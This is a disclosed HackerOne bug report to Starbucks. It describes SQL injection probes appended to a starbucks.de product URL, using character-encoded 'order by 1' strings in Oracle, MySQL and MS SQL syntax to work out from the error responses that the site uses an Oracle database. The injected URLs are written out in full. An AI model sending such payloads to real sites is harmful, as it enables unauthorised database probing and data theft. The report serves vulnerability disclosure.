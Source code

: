 # SQL Injection Proof of Concept for Starbucks URL

## Report Details
- **Report ID**: 360539
- **URL**: https://hackerone.com/reports/360539
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-05-31T19:53:38.818Z
- **Disclosed**: 2019-01-09T18:49:06.831Z

## Reporter
- **Username**: gbadebo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
browser: firefox quantum 60.0.1 64 bit
os: windows 10
sqli type: char formula injection
info found: oracle database system
url: https://www.starbucks.de/coffee/our-coffees/format/whole-bean
injected url using oracle concatenation and char functions: https://www.starbucks.de/coffee/our-coffees/format/whole-bean CHR(111) || CHR(114) || CHR(100) || CHR(101) || CHR(114) || CHR(32) || CHR(98) || CHR(121) || CHR(32) || CHR(49)
steps to find oracle dbms
1. inject the following url with order by 1 written with char and oracle concatenation resulting in an erronous page, which indicates oracle db is used.
2. https://www.starbucks.de/coffee/our-coffees/format/whole-bean CHR(111) || CHR(114) || CHR(100) || CHR(101) || CHR(114) || CHR(32) || CHR(98) || CHR(121) || CHR(32) || CHR(49)
3.then inject the following url with mysql char using order by 1, which results in no error.  so is not mysql dbms.
4. https://www.starbucks.de/coffee/our-coffees/format/whole-beanCHAR(111, 114, 100, 101, 114, 32, 98, 121, 32, 49)
5. finally try and inject with microsoft sql server char injection using order by 1 in char concatenation. which results in no error.  so is not a microsoft sql server database.  
6. https://www.starbucks.de/coffee/our-coffees/format/whole-bean CHAR(111) + CHAR(114) + CHAR(100) + CHAR(101) + CHAR(114) + CHAR(32) + CHAR(98) + CHAR(121) + CHAR(32) + CHAR(49)
description:
by process of elimination by error.  i was able to figure out which database starbucks is using for that url.  basically, the only sql injection code that errored was the oracle char concatenation.  leading me to believe that you use oracle dbms.

images included attached showing error with oracle sql injection and no error with ms sql nor mysql injection,

## Impact

by knowning that the database is oracle this can lead to furthder exploits to gain priviledged information as it is no longer a blind sql exploit.  which is a lot easier to deploy.  the attacker can now streamline the sql injection to be specifically based on oracle sql syntax.

## Attachments
- starbucksMSSQLNoError.PNG
- starbucksMySQLNoError.PNG
- starbucksOracleError.PNG
